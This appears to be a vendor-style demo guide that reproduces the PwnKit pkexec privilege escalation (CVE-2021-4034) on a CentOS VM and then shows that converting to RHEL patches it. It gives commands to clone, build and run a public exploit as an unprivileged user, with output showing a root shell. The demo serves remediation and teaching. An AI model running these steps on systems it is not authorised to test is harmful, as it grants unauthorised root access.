= Demo PwnKit security escallation and remediation

PwnKit is the name associated with https://access.redhat.com/security/cve/CVE-2021-4034[CVE-2021-4034] - Pkexec Local Privilege Escalation.

There are a number of sample escallation examples availble today including

* https://github.com/ly4k/PwnKit
* https://github.com/luijait/PwnKit-Exploit.git

For this demo we'll show how the standard Cloud Images for Centos
are impacted by the exploit that once updated to RHEL the exploit has been remediated

== Demo Pre-work ==

First we need a Centos Virtual machine

- Deploy a link:Demo_VM.adoc[local or cloud hosted Centos Linux environment]

For Centos 8 we also need to update the yum repositories to point to
the centos vault.

[source,bash]
----
ssh leapp2rhel

# wait for the login to complete

sed -i 's/^mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*
sed -i 's|#baseurl=http://mirror.centos.org|baseurl=https://vault.centos.org|g' /etc/yum.repos.d/CentOS-*
----


Install the required tools into your VM and build the exploit

[source,bash]
----

yum install gcc make


# Clone the exploit code, and build the exploit
git clone https://github.com/luijait/PwnKit-Exploit.git

cd PwnKit-Exploit/
make

Copy the exploit to a temp directory, and create a new user without sudo privileges
cp exploit /tmp/
useradd developer
Switch to the developer user, and copy the exploit binary to the home dir
cp /tmp/exploit /home/developer

----

== Live Demo ==

The flow is

* Show the exploit exists under our _developer_ user
* Convert link:Demo_Convert2RHEL.adoc[Centos environment to RHEL] with Convert2RHEL
* Show the exploit no longer works

[source,bash]
----

# Login as our developer user
ssh developer@leapp2rhel

# Clone the Git Repo
git clone https://github.com/luijait/PwnKit-Exploit.git Exploit

# Build the PwnKit Exploit
cd Exploit
make

# Confirm we can't access the root user

sudo -i
# Should produce a response similar to
[sudo] password for developer: 
developer is not in the sudoers file.  This incident will be reported.


# Now run our exploit

./exploit 
Current User before execute exploit
hacker@victim$whoami: developer
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed succesfully

[root@localhost PwnKit-Exploit]# id
uid=0(root) gid=0(root) groups=0(root),1001(developer) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

exit
logout

----

Convert link:Demo_Convert2RHEL.adoc[Centos environment to RHEL] with Convert2RHEL

[source,bash]
----
# Login as our developer user
ssh developer@leapp2rhel

./exploit
# Exploit fails

----

link:../README.adoc[Return]
